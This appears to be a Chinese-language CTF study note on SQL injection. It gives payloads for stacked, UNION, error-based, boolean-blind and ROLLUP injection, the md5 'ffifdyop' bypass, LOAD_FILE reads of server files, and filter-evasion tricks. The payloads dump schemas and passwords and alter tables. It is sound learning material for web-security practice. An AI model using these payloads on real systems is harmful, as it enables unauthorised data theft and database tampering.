 ## SQLi

#### 字符型

测试步骤：

payload为`'#`不会报错

#### 整数型

payload为`1'`会报错

### 注入姿势：

#### 堆叠注入

类似Linux下的命令注入

例：

```sql
1';alter table `words` rename to `word`;alter table `1919810931114514` rename to `words`;alter table words change flag id varchar(100);
```



#### HANDLER[TABLE]OPEN语句

MySQL 专用的语句，并没有包含到SQL标准中。

HANDLER [表名] OPEN;语句打开一个表，使其可以使用后续HANDLER [表名] READ；该表对象未被其他会话共享，并且在会话调用HANDLER [表名] CLOSE;或会话终止之前不会关闭

```sql
1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere  close;#
```



#### union 注入

要注意观察回显的位置，选择在哪里注入sql很重要

```sql
1'union selcet 1,2,3%23
1'order by 3%23
1'union select 1,2,database()%23
#查库
1'union select 1,2,group_concat(schema_name)from(information_schema.schemata)%23
#查表
1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23
#查字段
1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name="geekuser"%23#表名有单引号
```

#### 报错注入

```sql
password=1'OR(updatexml(1,concat('~',database(),'~'),1))%23
```

```sql
1'or(updatexml(1,concat('~''~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),'~'),1))%23
```

```sql
#报错注入对回显有字数限制，所以采用左右显示以补全flag
admin'or(updatexml(1,concat('~',(select(group_concat((right(password,25))))from(H4rDsq1)),'~'),1))%23
```

#### 布尔盲注

```sql
if(ascii(substr(database(),1,1))=101,1,2)
0||ascii(substr(database()/**/from/**/1/**/for/**/1))
```

#### 查询时产生新的行列进行匹配绕过（通常后台分为两次查询）

**1.group by 子句：rollup**，在group by产生结果时，会对结果进行汇总，默认情况下会生成一个NULL值作为统计名

```sql
SELECT 
    warehouse, SUM(quantity)
FROM
    inventory
GROUP BY ROLLUP(warehouse);
```

产生：

```tex
warehouse              SUM(quantity)
San Fransisco          560
San Jose               650
Null                   1210
```

[CTFshow-web10](https://blog.csdn.net/weixin_46439278/article/details/109555667)

payload:

对查询出来的用户名进行汇总

```sql
admin'or/**/1=1/**/group/**/by/**/password/**/with/**/ROLLUP#
```



#### Mysql中的MD5函数

 md5(string,raw)

raw：可规定16进制(false)还是二进制输出(true)。有一道题：[CTFshow-web9](https://blog.csdn.net/March97/article/details/81222922)

```sql
select * from 'admin' where password=md5($pass,true)
```

```
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
```

如果raw为true，则返回的这个原始二进制不是普通的二进制（0，1），而是 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c 这种。 在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1  ，也就相当于password=‘xxx’ or true，所以返回值就是true。当然在我后来测试中发现，不只是1开头，只要是数字开头都是可以的。

#### Mysql中的loadfile函数

 在MySQL中，LOAD_FILE()函数读取一个文件并将其内容作为字符串返回。

所以如果我已知存在GET型注入和目标文件，可以尝试使用这个函数去读取flag

```sql
?no=-1/**/union/**/%20select/**/1,load_file('/var/www/html/flag.php')%20,3,4#
```



### 过滤绕过：

#### 空格

```sql
1.url编码：%0a,%0b,%0c,%0d,%09,%a0,/**/
2.使用括号包裹
```

#### 单引号转义

[NCTF2019SQLi](https://blog.csdn.net/wuyaowangchuan/article/details/114362816)

在一些情况下，单引号被过滤了，那么这时候我们可以传入`\`字符，进行尝试

eg:

```sql 
#有如下sql语句
select * from table where name='$_GET[name]' and passwd='$_GET[passwd]'
```

那么我们传入`name=\&passwd=||/**/passwd/**/regexp/**/"^a"%00`，上面的语句会变为

```sql
select * from users where username='\' and passwd='||/**/passwd/**/regexp/**/"^a";
```

#### 等号=

使用like绕过

#### 使用``对关键字绕过

